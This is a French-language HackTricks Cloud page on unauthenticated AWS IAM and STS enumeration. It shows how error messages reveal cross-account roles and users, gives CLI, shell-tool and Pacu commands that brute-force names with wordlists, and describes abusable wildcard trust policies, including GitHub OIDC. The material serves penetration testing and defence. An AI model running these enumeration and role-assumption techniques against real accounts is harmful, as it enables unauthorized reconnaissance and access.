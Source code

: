 # AWS - IAM & STS Enum non authentifié

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Formation AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Formation GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

## Énumérer les rôles et les noms d'utilisateur dans un compte

### ~~Forçage de rôle par brute force~~

{% hint style="danger" %}
**Cette technique ne fonctionne plus** car que le rôle existe ou non, vous obtenez toujours cette erreur :

`An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::947247140022:user/testenv is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::429217632764:role/account-balanceasdas`

Vous pouvez **tester cela en exécutant** :

`aws sts assume-role --role-arn arn:aws:iam::412345678909:role/superadmin --role-session-name s3-access-example`
{% endhint %}

Tenter de **prendre un rôle sans les autorisations nécessaires** déclenche un message d'erreur AWS. Par exemple, si non autorisé, AWS pourrait renvoyer :
```ruby
An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::012345678901:user/MyUser is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::111111111111:role/aws-service-role/rds.amazonaws.com/AWSServiceRoleForRDS
```
Ce message confirme l'existence du rôle mais indique que sa politique d'assumption ne permet pas votre assumption. En revanche, essayer de **prendre un rôle inexistant entraîne une erreur différente** :
```less
An error occurred (AccessDenied) when calling the AssumeRole operation: Not authorized to perform sts:AssumeRole
```
Intéressant, cette méthode de **distinction entre les rôles existants et non existants** est applicable même à travers différents comptes AWS. Avec un ID de compte AWS valide et une liste de mots ciblée, on peut énumérer les rôles présents dans le compte sans faire face à des limitations inhérentes.

Vous pouvez utiliser ce [script pour énumérer les principaux potentiels](https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/assume\_role\_enum) en abusant de ce problème.

### Politiques de confiance : Brute-Force des rôles et utilisateurs inter-comptes

Configurer ou mettre à jour la **politique de confiance d'un rôle IAM implique de définir quels ressources ou services AWS sont autorisés à assumer ce rôle** et à obtenir des identifiants temporaires. Si la ressource spécifiée dans la politique **existe**, la politique de confiance est enregistrée **avec succès**. Cependant, si la ressource **n'existe pas**, une **erreur est générée**, indiquant qu'un principal invalide a été fourni.

{% hint style="warning" %}
Notez que dans cette ressource, vous pourriez spécifier un rôle ou un utilisateur inter-compte :

* `arn:aws:iam::acc_id:role/role_name`
* `arn:aws:iam::acc_id:user/user_name`
{% endhint %}

Voici un exemple de politique :
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":
{
"AWS":"arn:aws:iam::216825089941:role\/Test"
},
"Action":"sts:AssumeRole"
}
]
}
```
#### GUI

C'est l'**erreur** que vous trouverez si vous utilisez un **rôle qui n'existe pas**. Si le rôle **existe**, la politique sera **enregistrée** sans aucune erreur. (L'erreur concerne la mise à jour, mais cela fonctionne également lors de la création)

![](<../../../.gitbook/assets/image (153).png>)

#### CLI
```bash
### You could also use: aws iam update-assume-role-policy
# When it works
aws iam create-role --role-name Test-Role --assume-role-policy-document file://a.json
{
"Role": {
"Path": "/",
"RoleName": "Test-Role",
"RoleId": "AROA5ZDCUJS3DVEIYOB73",
"Arn": "arn:aws:iam::947247140022:role/Test-Role",
"CreateDate": "2022-05-03T20:50:04Z",
"AssumeRolePolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::316584767888:role/account-balance"
},
"Action": [
"sts:AssumeRole"
]
}
]
}
}
}

# When it doesn't work
aws iam create-role --role-name Test-Role2 --assume-role-policy-document file://a.json
An error occurred (MalformedPolicyDocument) when calling the CreateRole operation: Invalid principal in policy: "AWS":"arn:aws:iam::316584767888:role/account-balanceefd23f2"
```
Vous pouvez automatiser ce processus avec [https://github.com/carlospolop/aws\_tools](https://github.com/carlospolop/aws\_tools)

* `bash unauth_iam.sh -t user -i 316584767888 -r TestRole -w ./unauth_wordlist.txt`

Notre utilisation de [Pacu](https://github.com/RhinoSecurityLabs/pacu) :

* `run iam__enum_users --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* `run iam__enum_roles --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* Le rôle `admin` utilisé dans l'exemple est un **rôle dans votre compte à être usurpé** par pacu pour créer les politiques dont il a besoin pour l'énumération

### Privesc

Dans le cas où le rôle était mal configuré et permet à quiconque de l'assumer :
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
L'attaquant pourrait simplement le supposer.

## Fédération OIDC de tiers

Imaginez que vous parvenez à lire un **workflow Github Actions** qui accède à un **rôle** à l'intérieur d'**AWS**.\
Cette confiance pourrait donner accès à un rôle avec la **politique de confiance** suivante :
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::<acc_id>:oidc-provider/token.actions.githubusercontent.com"
},
"Action": "sts:AssumeRoleWithWebIdentity",
"Condition": {
"StringEquals": {
"token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
}
}
}
]
}
```
Cette politique de confiance peut être correcte, mais le **manque de plus de conditions** devrait vous inciter à vous méfier.\
C'est parce que le rôle précédent peut être assumé par **QUICONQUE de Github Actions** ! Vous devriez spécifier dans les conditions d'autres éléments tels que le nom de l'organisation, le nom du dépôt, l'environnement, la branche...

Une autre mauvaise configuration potentielle est d'**ajouter une condition** comme suit :
```json
"StringLike": {
"token.actions.githubusercontent.com:sub": "repo:org_name*:*"
}
```
Notez le **joker** (\*) avant le **deux-points** (:). Vous pouvez créer une org telle que **org\_name1** et **assumer le rôle** depuis une action Github.

## Références

* [https://www.youtube.com/watch?v=8ZXRw4Ry3mQ](https://www.youtube.com/watch?v=8ZXRw4Ry3mQ)
* [https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/](https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/)

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Vérifiez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
